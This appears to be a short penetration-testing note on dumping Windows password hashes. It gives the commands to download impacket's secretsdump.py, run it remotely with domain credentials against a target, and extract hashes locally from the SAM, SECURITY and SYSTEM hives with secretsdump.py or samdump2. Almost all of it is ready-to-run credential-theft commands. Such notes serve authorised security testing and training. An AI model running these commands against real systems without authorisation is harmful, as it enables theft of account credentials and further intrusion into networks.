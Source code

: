 ```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py
```

#### Remotely with Creds
```python - kali
secretsdump.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

![[Pasted image 20220119120903.png]]

```python - kali
secretsdump.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Locally with secretsdump.py
```command prompt - target
cd Windows/System32/config
```

```command prompt - target
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

#### Locally with samdump2
```command prompt - target
cd Windows/System32/config
```

```command prompt - target
samdump2 ./SYSTEM ./SAM
```